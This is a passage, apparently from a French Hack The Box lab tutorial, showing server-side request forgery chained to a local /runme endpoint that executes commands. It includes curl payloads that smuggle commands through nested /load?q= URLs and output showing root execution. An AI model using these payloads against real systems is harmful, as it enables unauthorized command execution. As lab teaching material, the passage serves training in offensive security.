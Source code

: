```
if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
</a></body></html>

```

En étudiant le code source ci-dessus, nous remarquons une fonctionnalité qui nous permet d'exécuter des commandes sur l'hôte distant en envoyant une requête GET à `/runme?x=<CMD>`. Confirmons l'exécution du code à distance en envoyant `whoami`une commande.

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 93
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:48:32 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=whoami</h1><a>root
 </a></body></html>

```

Nous pouvons exécuter des commandes dans le contexte de superutilisateur sur l'application cible. Mais que se passe-t-il si nous essayons de soumettre une commande avec des arguments, comme ci-dessous ?

  cURL - Interagir avec la cible

```

dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a"

HTTP/1.0 400 Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1')
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 586

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 400</p>
        <p>Message: Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1').</p>
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>

```
